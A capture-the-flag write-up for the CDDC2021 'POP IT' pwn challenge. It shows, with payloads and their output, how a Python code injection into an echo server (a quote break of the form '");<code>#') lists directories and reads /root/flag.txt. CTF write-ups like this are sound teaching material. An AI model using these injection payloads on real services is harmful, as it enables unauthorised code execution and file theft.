 ```yaml
---
title : "POP IT [Pwn]"
categories: CDDC2021
---
```


Python code injection attack on an echo server. Third pwn challenge in CDDC2021.

# Challenge Description

Your last mission, for now, looks promising. It’s some kind of an echo server. I think you can exploit it easily.

Target: 18.136.182.104 port 60230

# Solution

For challenges like these, I like to spam weird characters. Luckily my first one gave me syntax error: `"`.

This tells me that they are not escaping my quote and using it to terminate the string, hence having an unclosed quote at the back. Something like this:

```python
print(""")
```

I took a brave guess that it is Python because of the syntax error message. So I tried to list the current directory and echo it back.

```
input> ");import os;print(os.system("ls"))#

Program output:
```

*Note: this effectively does something like this (for what I had in mind at this point in time)*
```python
print("");import os;print(os.system("ls"))#")
```

So our payload needs to be in the form of `");<code>#`
{: .notice--info}

Hmmm, that means that it doesn't use `print` to echo back. I played around a bit and got this:

```
input> ", end="asdf");#

Error: sendBack() expects 1 argument, 2 received
```

Sounds like some websocket is being used. So I just need to find out the variables it has and I can leak the current directory, and get the flag.

```
input> "+'|'.join(dir()))#

Program output: conn|functionPointer|ram|userData|userDataPointer
```

`dir()` returns all variables available in the current scope, which is perfect. `conn` should be the websocket connection. So I can do something like this:

```
input> ");import os;conn.send('\n'.join(os.listdir(os.getcwd())));#

Program output: lib64
opt
tmp
usr
home
run
libx32
proc
srv
var
dev
media
boot
lib
root
etc
sbin
bin
mnt
lib32
sys
.dockerenv
```

Changing the directory for a bit:

```
input> ");import os;conn.send(' '.join(os.listdir(os.getcwd() + 'root')));#

Program output: .bashrc .profile buffer_overflow.py exploit.sh memory flag.txt
```

*Wait what? Buffer overflow???? XD*

# Final Payload
```
");conn.send(open('/root/flag.txt').read());#
```

Flag: `CDDC21{Py780n_!$_N!c3}`
